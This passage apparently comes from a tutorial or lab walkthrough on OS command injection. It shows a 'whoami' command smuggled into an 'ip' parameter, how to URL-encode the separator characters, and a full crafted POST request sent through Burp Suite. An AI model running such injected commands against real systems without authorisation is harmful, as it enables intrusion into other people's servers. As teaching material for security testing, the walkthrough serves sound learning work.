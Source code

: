 ### Payload Modification and Execution

**Step 4: Craft Malicious Request**

**Original Parameter:**
```
ip=127.0.0.1
```

**Modified Parameter:**
```
ip=127.0.0.1; whoami
```

**Step 5: URL Encoding**

**Why URL Encoding is Needed:**
- Special characters may be interpreted incorrectly
- Ensures payload is transmitted as intended
- Bypasses basic string filtering

**URL Encoding Process:**
```bash
# Raw payload
127.0.0.1; whoami

# URL encoded payload
127.0.0.1%3b%20whoami

# Burp Suite: Select payload → Ctrl + U (auto URL-encode)
```

**URL Encoding Reference:**
```
;  → %3b
   → %20 (space)
&  → %26
|  → %7c
\n → %0a
```

**Step 6: Send Modified Request**

**Final HTTP Request:**
```http
POST /index.php HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://target.com
Connection: close
Referer: http://target.com/
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%3b%20whoami
```

---